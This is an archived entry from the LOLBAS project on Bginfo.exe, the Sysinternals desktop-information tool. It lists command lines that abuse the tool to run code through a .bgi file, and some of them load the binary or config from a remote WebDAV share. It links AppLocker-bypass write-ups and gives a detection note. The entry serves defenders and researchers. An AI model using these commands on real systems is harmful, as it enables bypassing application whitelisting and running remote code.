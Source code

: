 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Bginfo.exe

* Functions: Execute

```
bginfo.exe bginfo.bgi /popup /nolicprompt    

"\\10.10.10.10\webdav\bginfo.exe" bginfo.bgi /popup /nolicprompt    

"\\live.sysinternals.com\Tools\bginfo.exe" \\10.10.10.10\webdav\bginfo.bgi /popup /nolicprompt   
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe

Code sample:
* https://github.com/api0cradle/BGInfo/blob/master/BGITool_1.0.ps1

Resources: 
* https://oddvar.moe/2017/05/18/bypassing-application-whitelisting-with-bginfo/   
* https://oddvar.moe/2017/05/22/clarification-bginfo-4-22-applocker-still-vulnerable/  
* https://twitter.com/Oddvarmoe/status/865330067630694400   
* https://twitter.com/ItsReallyNick/status/996133093613424641   
* https://github.com/3gstudent/bgi-creater   
* https://pentestlab.blog/2017/06/05/applocker-bypass-bginfo/  

Full path:
```
No fixed path
```

Notes:
Used to set background image in Windows with details about the environment


Detection:
Bginfo.exe requesting files externally or running VBS scripts.
